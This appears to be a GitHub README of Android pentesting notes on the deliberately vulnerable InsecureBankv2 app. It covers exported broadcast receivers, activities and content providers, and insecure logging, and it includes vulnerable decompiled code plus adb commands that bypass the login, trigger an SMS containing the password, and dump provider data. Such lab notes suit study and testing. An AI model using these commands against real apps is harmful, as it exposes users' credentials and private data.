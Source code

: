 - [Manifest](#Mainfest)
  - [Debug Mode](#Debug)
  - [Backup](#Backup)
- [Broadcast Receiver](#BroadcastReceiver)
  - [Broadcast Receiver Discription](#Broadcast_receiver_description)
  - [Exported Broadcast Receiver](#Exported_broadcast_receiver)
    - [Broadcast Receiver AndroidManifest declaration](#BR_AndroidManifest.xml)
    - [Broadcast Receiver method code implementation](#BR_method_code)
    - [ADB Broadcast Receiver exploitation](#adb_BR_exploitaion)
- [Activity](#Activity)
  - []()
  - []()
  - [Exported Activity Bypassing](#Exported_activity_bypassing)
    - [Manifset](#Manifset)
- [Intents](#Intents)
  - [Intent Sniffing](#Intent_sniffing)
    - [Intent AndroidManifest declaration](#Intent_AndroidManifest.xml)
    - [Intent method code implementation](#Intent_implementation)
    - [Create intent exploitation application](#Create_intent_exploitation_app)
- [Content Provider](#Content_provider)
  - [Content Provider Discription](#Content_Provider_Discription)
  - [Exported Content Provider](#Exported_content_provider)
    - [Content Provider AndroidManifest declaration](#CP_AndroidManifest.xml)
    - [Content Provider method code implementation](#CP_method_code)
    - [ADB Content Provider exploitation](#adb_CP_exploitaion)
- [Insecure Logging](#Insecure_Logging)
  - [logcat](#logcat)

# Manifest

## Debug

## Backup
------------------------------------------------------------------------------------------------------------------------
# BroadcastReceiver

## Broadcast_receiver_description
Broadcast receivers are designed to listen to system wide events called broadcasts (e.g. network activity, application updates, etc.) and then trigger something if the broadcast message matches the current parameters inside the Broadcast Receiver

## Exported_broadcast_receiver

### BR_AndroidManifest.xml
```
<receiver android:name="com.android.insecurebankv2.MyBroadCastReceiver" android:exported="true">
            <intent-filter>
                <action android:name="theBroadcast"/>
            </intent-filter>
        </receiver>
```
### BR_method_code
```
public void onReceive(Context context, Intent intent) {
        String phn = intent.getStringExtra("phonenumber");
        String newpass = intent.getStringExtra("newpass");
        if (phn != null) {
            try {
                SharedPreferences settings = context.getSharedPreferences("mySharedPreferences", 1);
                this.usernameBase64ByteString = new String(Base64.decode(settings.getString("EncryptedUsername", null), 0), "UTF-8");
                String decryptedPassword = new CryptoClass().aesDeccryptedString(settings.getString("superSecurePassword", null));
                String textPhoneno = phn.toString();
                String textMessage = "Updated Password from: " + decryptedPassword + " to: " + newpass;
                SmsManager smsManager = SmsManager.getDefault();
                System.out.println("For the changepassword - phonenumber: " + textPhoneno + " password is: " + textMessage);
                smsManager.sendTextMessage(textPhoneno, null, textMessage, null, null);
            } catch (Exception e) {
                e.printStackTrace();
            }
        } else {
            System.out.println("Phone number is null");
        }
    }
```
### adb_BR_exploitaion
```
am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver –es phonenumber 0123456789 –es newpass Test_pass123!
```
-------------------------------------------------------------------------------------------------------------------------------
# Activity

## Exported_activity_bypassing

### Manifset
```
<activity android:label="@string/title_activity_post_login" 
android:name="com.android.insecurebankv2.PostLogin" android:exported="true"/>

Bypassing: adb shell am start -n com.android.insecurebankv2/com.android.insecurebankv2.PostLogin
```
-------------------------------------------------------------------------------------------------------------------------------
# Intents

## Intent_sniffing

### Intent_AndroidManifest.xml
```
<receiver android:name="com.android.insecurebankv2.MyBroadCastReceiver" android:exported="true">
 <intent-filter>
      <action android:name="theBroadcast"/>
  </intent-filter>
</receiver>
```
### Intent_implementation
```
public void onReceive(Context context, Intent intent) {
        String phn = intent.getStringExtra("phonenumber");
        String newpass = intent.getStringExtra("newpass");
        if (phn != null) {

private void broadcastChangepasswordSMS(String phoneNumber, String pass) {
        if (TextUtils.isEmpty(phoneNumber.toString().trim())) {
            System.out.println("Phone number Invalid.");
            return;
        }
        Intent smsIntent = new Intent();
        smsIntent.setAction("theBroadcast");
        smsIntent.putExtra("phonenumber", phoneNumber);
        smsIntent.putExtra("newpass", pass);
        sendBroadcast(smsIntent);
    }
```
### Create_intent_exploitation_app
-------------------------------------------------------------------------------------------------------------------------------
# Content_Provider

## Content_Provider_Discription
Content providers are used to share app data with other applications, which is normally stored inside a database or file.

## Exported_content_provider

### CP_AndroidManifest.xml
```
provider android:name="com.android.insecurebankv2.TrackUserContentProvider" android:exported="true" android:authorities="com.android.insecurebankv2.TrackUserContentProvider"/>
```
### CP_method_code
```
static final String URL = "content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers";
static final String name = "name";
```
### adb_CP_exploitaion
```
content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers    
```
-------------------------------------------------------------------------------------------------------------------------------
# Insecure_Logging

## logcat
```
adb logcat | grep "$(adb shell ps | grep [app.package.name]  | awk '{print $2}')"
```
